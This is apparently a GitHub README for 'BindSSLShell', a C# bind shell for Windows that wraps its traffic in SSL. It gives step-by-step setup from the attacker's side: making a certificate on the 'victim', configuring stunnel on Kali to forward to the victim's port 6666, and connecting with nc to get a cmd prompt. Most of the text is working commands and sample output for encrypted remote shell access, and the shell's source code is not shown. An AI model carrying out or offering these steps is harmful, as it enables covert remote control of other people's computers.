 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

-Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
-Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)
1 create the certificate:
	move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
	open a cmd as administrator and execute the following:
	 makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
	enter required password, then execute:
	 pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx
	enter required server password

2 include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy.
	Eventually you can embed the certificate and load it at runtime, more info:
	 https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file
	so you will have to deploy a single file
	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc
1 install stunnel:
	apt-get install stunnel

2 configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	[nc]
	client = yes
	accept = localhost:8443
	connect = <Victim IP>:6666
	--- end of file ---
	so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
3 start stunnel
	service stunnel4 start
		
4 check if it's running (optional)
	# netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

5 presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	nc localhost 8443
	
6 you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
